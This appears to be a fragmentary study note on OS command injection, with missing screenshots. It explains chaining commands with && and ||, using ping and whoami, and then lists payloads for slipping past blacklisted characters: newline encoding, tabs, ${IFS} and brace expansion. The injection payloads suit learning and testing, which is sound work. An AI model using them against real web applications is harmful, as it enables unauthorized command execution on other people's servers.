 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0a whoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- 